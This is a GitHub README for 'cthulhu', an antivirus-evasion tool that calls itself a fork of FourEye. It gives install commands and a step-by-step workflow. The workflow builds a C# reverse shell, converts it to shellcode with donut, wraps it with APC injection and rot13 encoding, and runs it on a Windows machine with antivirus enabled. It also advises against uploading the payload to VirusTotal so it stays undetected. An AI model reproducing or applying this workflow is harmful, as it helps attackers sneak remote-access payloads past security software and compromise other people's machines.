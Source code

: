# cthulhu

AV Evasion, a FourEye fork

# Install

git clone https://github.com/foxlox/cthulhu

cd cthulhu

chmod 755 setup.sh

./setup.sh

python3 cthulu.py
    
    
![immagine](https://user-images.githubusercontent.com/28823598/128512455-1bad09e2-9616-4333-ad37-db895705ff02.png)
  
    
![immagine](https://user-images.githubusercontent.com/28823598/128512283-4e75f989-f5fd-4e54-b954-7741fc231add.png)


# Example

1. Create a new Visual Studio C# Console Project

2. Add reverse.cs and set IP and PORT

3. Build it

4. go to Linux box

5. $ donut compiledapp.exe -o ca.bin

6. $ python3 cthulhu.py -method apc -arch x86 -bin ca.bin -enc rot13

[+]shellcode created: /tmp/shellcode.exe

8. Bind the right port on your linux box and wait.

9. Copy shellcode.exe on Windows box and run it. Don't remember to start your Antivirus.

10. Don't upload your shellcode.exe on Virustotal


    *fox
    
